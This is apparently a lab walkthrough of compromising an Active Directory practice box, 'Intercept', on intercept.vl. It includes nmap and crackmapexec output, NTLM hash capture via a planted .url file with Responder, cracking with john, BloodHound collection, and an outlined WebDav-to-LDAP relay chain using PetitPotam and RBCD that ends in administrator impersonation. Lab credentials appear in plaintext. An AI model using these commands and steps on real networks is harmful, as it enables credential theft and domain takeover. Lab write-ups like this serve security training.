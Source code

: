 
![](Intercept_Cover.png)



```
Host is up (0.039s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server


Host is up (0.038s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```


```
└─# crackmapexec smb ip_                                  
SMB         10.10.240.102   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.240.101   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
```


### INITIAL_ACCESS


There's Guest level access in WS01 , Where guest can read/write in dev shared workspace.


![](../SENDAI_/Guest_ACcess.png)


![](Guest_Share.png)

Cool ! The user's gonna check the shares regularly ! Now, we can do some attacks like : 
--> Grab Ntlm hash and crack ;
--> Relay the hash and authenticate 
	--> smb relaying 
	--> ldap relaying



```
└─# python hashgrab.py 10.8.0.148 grab
```

![](hash_grab.png)

Then Upload @grab.url to the victim share , and wait for the interaction opening Responder !

```
└─# responder -I tun0 -v 
```


![](Grabbed_hash.png)

Then , Just crack the credentials !

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt kathryn.spencer_hash 
```

![](Cracked_Hash.png)



Cool ! 
--> Now lets check the access of this user ! 
--> Run BloodHound !

```
└─# crackmapexec smb ip_ -u Kathryn.Spencer -p Chocolate1
```

```
└─# bloodhound-python --username Kathryn.Spencer --password Chocolate1 --domain intercept.vl --nameserver 10.10.240.101 --domain-controller DC01.intercept.vl --collectionmethod all --zip
```


### WebDav HTTP Relaying

Let’s think, how could we take over WS01? We are `not a local admin` and we `cannot RDP`… Coerce attacks are a real nuisance nowadays, however, `SMB signing is enforced` on the Domain Controller, this `completely mitigates` any `SMB -> SMB` or `SMB -> LDAP` relaying to the DC.

However, since this is a workstation, all Windows 10 machines come pre-installed with the `WebClient service`, it may not be active by default, but there are ways to trigger it. If WebClient was running on that computer, somehow coercing the computer account to authenticate back to us via WebDav, could allow us relaying from `HTTP -> LDAP`, even if SMB signing is `enabled`, but we would also need `LDAP signing to not be enforced`. Let’s check it out.

We can use CrackMapExec’s webdav and ldap-checker modules to verify it, and it looks like the `WebClient is running`!

 [Youtube](https://www.youtube.com/watch?v=axPkf_kLpMA)


```
└─# crackmapexec smb ip_ -u Kathryn.Spencer -p Chocolate1 -M webdav
```

![](Web_Client.png)


```
└─# crackmapexec ldap dc01 -u Kathryn.Spencer -p Chocolate1 -M ldap-checker
```

![](Ldap_Signing.png)




1 --> add our host to their dns entry ;
2 --> start responder [ turn off http and smb ]
3 --> start ntlmrelay [--delegate-access ]
4 --> PetitPotam or printerbug [attack the webclient .]
5 --> Get HTTP --> LDAP access [ RBCD / S4u Proxy attack]
6 --> Generate Tickets impersonating administrator !



Simon.Bowen   ::   b0OI_fHO859+Aw
